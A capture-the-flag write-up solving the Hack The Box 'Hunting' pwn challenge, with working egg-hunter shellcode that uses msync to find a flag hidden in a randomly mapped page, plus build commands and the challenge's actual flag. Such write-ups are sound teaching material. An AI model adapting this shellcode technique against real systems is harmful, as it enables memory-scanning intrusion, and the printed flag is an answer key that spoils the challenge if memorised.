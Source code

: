 # Hack The Box - Hunting (pwn challenge)

## Recon

As usual, this challenge consists of a binary (`hunting`) and a netcat address/port pair.
Let's run `checksec` on the binary first to see what we're dealing with:

```Shell
$ checksec --file=hunting
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   No Symbols        No    0               3               hunting
```

No NX is interesting, that together with the challenge name seems to imply there'll be some shellcode involved (spoiler alert, there will).

Anyways, we load the binary into Ghidra in order to take a quick look at the `main` function and... the output is unreadable.
For instance, here is an excerpt from the decompiler:

```C
[...]
  *(undefined4 *)((int)puVar2 + -0xc) = 0;
  *(undefined4 *)((int)puVar2 + -0x10) = 0xffffffff;
  *(undefined4 *)((int)puVar2 + -0x14) = 0x21;
  *(undefined4 *)((int)puVar2 + -0x18) = 7;
  *(undefined4 *)((int)puVar2 + -0x1c) = 0x1000;
  *(undefined4 *)((int)puVar2 + -0x20) = 0;
  *(undefined4 *)((int)puVar2 + -0x24) = 0x11527;
  local_1c = (code *)FUN_000111a0()
[...]
```

Upon manual examination it turns out `FUN_000111a0` is actually `mmap` (hence the stack memory accesses preceding it), but Ghidra is not picking up on that for some reason.
The binary seems to load the address of the GOT into `ebx` at the beginning of `main` and then access different libc functions using these "helper" functions.

```asm
FUN_000111a0:
  ENDBR32
  JMP   dword ptr [EBX + 0x28] ; EBX points to the GOT, and there is a pointer to `mmap` at index 10 (offset 0x28)
```

Since `main` is rather small anyways we can do with just looking at the disassembly, and for that I happen to find Cutter a bit more user-friendly (plus, Cutter's disassembler seems to catch references to libc automatically).

After some reading we find that `main` is essentially doing:

```C
// returns a page-aligned random number in the range [0x60000000, 0x7f000000]                               (1)
uint32_t random = get_random();

// "hides" the flag at the beginning of a newly mapped memory page
void *map1 = mmap(random, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED | MAP_ANONYMUS, -1, 0);
if (map1 == -1) {
  exit(-1);
}
strcpy(map1, FLAG);
memset(FLAG, 0, 0x25); // string FLAG is 0x25 characters long
map1 = 0;
fcn.0000133d(); // SECCOMP stuff to block unintended solutions

// loads 0x3c bytes worth of shellcode and runs it
void *map2 = mmap(0, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMUS, -1, 0);
read(0, map2, 0x3c);
((code*)map2)();
```

Nice, so the program has the flag in memory, copies it over to some memory address (the exact destination being chosen at runtime), erases the both the flag and the page pointer from both the stack and data section, and lets us run whatever we want (so long as it fits in `0x3c` bytes).

## Exploitation

### `mmap` and anonymus mappings

Intuitively, we'd like to go through the whole range of addresses that may get `mmap`ed, and check if the flag is there or not (we already know that the flag will be at the first `0x25` bytes of some page in the range specified at `(1)`).
The only problem being that if we try to access some page, and it wasn't the correct one, the whole process will just crash and next time the address might be different.
So let's take a step back and take a look at the man page for `mmap` to see if we find anything interesting:

```man
[...]
   The flags argument
       The flags argument determines whether updates to the mapping are  visi‐
       ble to other processes mapping the same region, and whether updates are
       carried through to the underlying file.  This behavior is determined by
       including exactly one of the following values in flags:

       MAP_SHARED
              Share this mapping.  Updates to the mapping are visible to other
              processes  mapping  the  same  region, and (in the case of file-
              backed mappings) are carried through  to  the  underlying  file.
              (To  precisely  control  when updates are carried through to the
              underlying file requires the use of msync(2).)
[...]
```

And sure enough, the documentation tells us something interesting about `MAP_SHARED`. Namely, the fact that if specified when `mmap`ing some page, we will be able to selectively flush the memory contents to underlying file using `msync`.
Now, this binary does not map the target memory region to an actual file (though `gdb` tells us the resulting mapping corresponds to `/dev/zero (deleted)`), but maybe this does not prevent us from distinguishing between mapped and unmapped regions, regardless of what they map to.

Let's do a quick test to see if this is the case.
We can try executing the following C code:

```C
#include <string.h>
#include <stdio.h>

#include <sys/mman.h>

int main (int argc, char *argv[]) {
        void *page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        printf("%p\n", page);
        printf("%d\n", msync(page, 0x1000, MS_SYNC));
        printf("%d\n", msync(0x5000000000000000, 0x1000, MS_SYNC)); // Long address because I was working on a 64bit host
        return 0;
}
```

That will `msync` a `mmaped` page with no file backing, and a (hopefully) unmapped memory page, and print the results:

```Shell
$ gcc main.c; a./.out
0x73c3fd849000
0
-1
```

This tells us that no matter the backing of the page, `msync` will let us distinguish whether it's mapped or not!

### Hunting

Now for the fun part, try to come up with a snippet of assembly code that will look for the flag within the given constraints.

This should be self-explanatory, we just want to (very tightly) loop over each possible memory page and query `msync` to see if it's mapped or not:

```asm
        ; alarm(0)
        xor ebx, ebx
        mov eax, 27
        int 0x80

        ; addr = 0x5ffff000
        ; while (1) { addr += 0x1000; if (!msync(addr, 0x1000, MS_SYNC)) break; }
        mov ebx, 0x5ffff000
        mov ecx, 0x1000
        mov edx, 4

_try:
        add ebx, ecx
        mov eax, 144
        int 0x80
        cmp eax, 0
        jne _try

        ; write(1, addr, 37)
        mov ecx, ebx
        xor ebx, ebx
        inc ebx
        mov eax, edx
        mov edx, 37
        int 0x80

        ; exit(0)
        xor ebx, ebx
        xor eax, eax
        inc ax
        int 0x80
```

> Forgot to mention the host sets an `alarm` before doing anything else, and since we don't know how long the exploit will take we're better off disabling it

The shellcode looks reasonable, now let's compile it and see whether it fits inside the buffer:

```Shell
$ nasm -f elf32 shellcode.s -o shellcode.o
$ objcopy -O binary --only-section=.text shellcode.o shellcode.bin
$ wc shellcode.bin                                                        
 0  1 60 shellcode.bin
```

We used _all_ available space, and even managed to disable the `alarm` and `exit` cleanly, nice.

Let's test it locally now:

```Shell
$ ./hunting < ./shellcode.bin
HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

And we get the dummy flag, if we didn't make any erroneous assumptions it should work remotely as well:

```Shell
$ nc $HTB_HOST $HTB_PORT < ./shellcode.bin 
HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}
```

And we got the flag!

